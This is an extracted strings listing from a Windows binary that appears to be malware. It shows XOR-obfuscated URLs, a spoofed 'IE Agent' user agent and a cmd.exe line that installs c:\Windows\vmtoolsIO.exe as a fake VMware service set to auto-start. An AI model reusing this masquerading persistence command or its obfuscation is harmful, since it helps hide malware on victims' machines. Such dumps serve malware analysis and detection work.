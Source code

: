 ```txt
@.data
.rsrc
@.reloc
QSVW
40A@;
Y_^[
h !@
==3@
u"h@3@
hL3@
h8&@
Y_^[
=<3@
=@3@
h@3@
hX3@
>csm
%p3@
Y__^[
%t3@
SVW3
ntel
5ineI
5Genu
t#=`
=x3@
=x3@
=x3@
=x3@
5t3@
_^[3
%P @
%D @
%L @
%H @
%x @
%p @
%h @
%  @
=t3@
)551{nn666o&..&-$o".,
)5512{nn%."2o,("3.2.'5o".,n$/l42n282(/5$3/ -2n
)551{nn666o, -6 3$urqo".,n)5,-n
6 3$
1% 5$o$9$
)5512{nn%.6/-. %o282(/5$3/ -2o".,n'(-$2n\t$9s
$"o;(1
IE Agent 11.0
c:\Windows\vmtoolsIO.exe
c:\Windows\
/C c:\Windows\vmtoolsIO.exe -install && net start VMwareIOHelperService && sc config VMwareIOHelperService start= auto
cmd.exe
open
c:\Windows\Temp\Hex2Dec.zip
AAAAAAAAAAAAAAAA
GCTL
.text$mn
.idata$5
.00cfg
.CRT$XCA
.CRT$XCAA
.CRT$XCZ
```